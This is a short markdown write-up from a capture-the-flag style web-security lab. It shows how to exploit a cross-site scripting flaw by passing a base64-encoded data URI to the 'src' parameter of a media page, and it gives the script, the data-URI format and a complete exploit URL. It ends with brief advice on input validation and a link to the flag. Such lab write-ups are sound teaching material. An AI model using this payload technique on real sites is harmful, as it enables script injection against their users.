 # XSS-Data URI Vulnerability

* Data URI is a clever method of inserting tiny files inline in HTML texts. Instead of referring to a file kept locally on the server, the file is delivered as a base64-encoded string of data prefixed by a mime-type inside the URL itself.

## Page

* Url: http://192.168.56.101/?page=media&src=nsa

## Exploitation

* Send a script in [Base 64][1] :
    ```
    <script>alert(nani)</script>
    ```

    ```
    data:[mediatype][;base64],data

    * mediatype = the media type (text/html)
    --- --- ---
    * ;base64 = specify the encoding format of the data
    --- --- ---
    * ,data = the malicious code
    ```

 *  Exploit
    ```
    http://192.168.56.105/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydChuYW5pKTwvc2NyaXB0Pg==
    ```


## Solution

* Do not trust the user input. The user data should be filtered and validated, by escaping characters or preventing the use of certain symbols.

## Sources

```
https://zofixer.com/what-is-cross-site-scripting-xss-off-domain-data-uri-vulnerability/
```
## FLAG

[-- 🌱 --][2]

[1]: https://www.base64encode.org/
[2]: ./flag.txt